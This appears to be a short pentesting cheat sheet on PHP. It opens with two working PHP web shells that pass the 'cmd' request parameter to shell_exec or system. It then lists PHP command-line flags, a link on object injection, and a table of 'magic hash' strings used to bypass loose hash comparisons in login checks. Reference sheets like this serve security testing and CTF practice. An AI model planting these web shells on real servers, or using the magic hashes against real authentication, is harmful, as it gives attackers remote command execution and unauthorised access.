 ```yaml
---
category: cheat-sheet
layout: cheat-sheet
title: PHP
author: Benjamin Assadsolimani
---
```



## Simple PHP Shell

```
<?php echo shell_exec($_GET['cmd']); ?>

```

```
<?php
if(isset($_REQUEST['cmd'])){
    $cmd = ($_REQUEST["cmd"]);
    system($cmd);
    echo "</pre>$cmd<pre>";
    die;
}
?>
```


## Serialization

* serialize object: `serialize($value)`
* [OWASP - PHP Object Injection](https://www.owasp.org/index.php/PHP_Object_Injection)

## PHP Command Line

```
php -a                      # interactive
php -f index.php            # parse file
php -r 'echo "Hello";'      # run code
```

## Magic Hashes

| Hash Function | Magic String    | Hash Value                               |
| :------------ | :-------------- | :--------------------------------------- |
| MD5           | 240610708       | 0e462097431906509019562988736854         |
| MD5           | QNKCDZO         | 0e830400451993494058024219903391         |
| MD5           | aabg7XSs        | 0e087386482136013740957780965295         |
| SHA1          | AAJd1x3j        | 00e6811279456694288001763399976992804485 |
| SHA1          | AAPkbYlH        | 0e51223820731210116366152413868569204545 |
| SHA1          | AAZlIwOZ        | 0e13965443605273185827757762777509208778 |
| SHA1          | 10932435112     | 0e07766915004133176347055865026311692244 |
